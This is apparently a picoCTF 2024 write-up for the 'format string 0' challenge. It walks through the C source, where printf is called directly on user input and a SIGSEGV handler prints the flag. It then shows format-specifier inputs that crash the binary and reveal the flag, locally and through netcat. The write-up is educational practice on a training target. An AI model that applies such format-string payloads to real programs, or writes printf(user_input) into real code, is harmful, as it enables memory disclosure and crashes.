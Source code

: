# format string 0

```
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: CHENG ZHANG

Description:
Can you use your knowledge of format strings to make the customers happy?
 
Hints:
1. This is an introduction of format string vulnerabilities. Look up "format specifiers" 
   if you have never seen them before.
2. Just try out the different options
```
Challenge link: [https://play.picoctf.org/practice/challenge/433](https://play.picoctf.org/practice/challenge/433)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```
Main basically does the following:
- Make sure there is a `flag.txt` file available, 
- Sets up a signal handler for `SIGSEGV` (Invalid memory references)
- Sets permissions (user and group IDs) with `setresgid`
- Calls the `serve_patrick` function

If an invalid memory reference happens the `sigsegv_handler` function is called
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```
and will display the flag for us.

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
./format-string-0  
                 
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak

picoCTF{fake_flag}


```
Of the choices I chose `Gr%114d_Cheese` and `Cla%sic_Che%s%steak` because the both contains [format specifiers](https://www.freecodecamp.org/news/format-specifiers-in-c/) which will cause the program to remove additional items on [the stack](https://en.wikipedia.org/wiki/Stack-based_memory_allocation) and cause an invalid memory reference.

The vulnerabilities are in the `printf` calls without one or more format specifiers, i.e.
- The line `int count = printf(choice1);` in the `serve_patrick` function and
- The line `printf(choice2);` in the `serve_bob` function

### Get the flag

Finally, we connect to the site vith netcat and gives the same answers to get the real flag
```bash
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<REDACTED>}

```

- [freeCodeCamp - Format Specifiers in C](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [Wikipedia - Stack-based memory allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
